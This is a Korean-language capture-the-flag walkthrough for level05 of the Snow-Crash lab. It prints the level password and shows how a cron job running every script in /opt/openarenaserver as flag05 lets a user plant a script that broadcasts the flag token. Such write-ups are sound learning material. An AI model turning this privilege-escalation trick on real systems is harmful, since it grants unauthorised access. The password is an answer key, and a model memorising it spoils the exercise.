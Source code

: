 > Password: ne2searoevaevoem4ov4ar8ap

# 접근 방법

```
% ssh -p 4242 level05@127.0.0.1
level05@127.0.0.1's password:
You have new mail.
```

`level05`로 `snow-crash`에 접속하면, 메일이 있다는 알림을 볼 수 있다.

해당 내용을 확인하기 위해 `/var/mail/level05` 경로의 내용을 읽는다.

```bash
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

그러면 위와 같은 내용이 있다. 내용 포맷을 보아, `crontab` 스케쥴링에 관련된 것으로 보인다. 여기에서 `flag05`의 권한으로 2분마다, `/usr/sbin/openarenaserver` 파일을 실행하는 것을 알 수 있다.

해당 `/usr/sbin/openarenaserver` 파일의 내용을 확인해보면 다음과 같다.

```bash
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

`/opt/openarenaserver` 내부의 모든 스크립트를 `bash -x` 로 실행한 후, 실행한 셸 스크립트를 삭제하는 내용이다.

따라서 `/opt/openarenaserver` 디렉토리 내부에 `getflag | wall`의 내용이 담긴 스크립트를 작성하고, 최대 2분 기다리면 `flag05`의 `token`이 브로드캐스팅 된다.
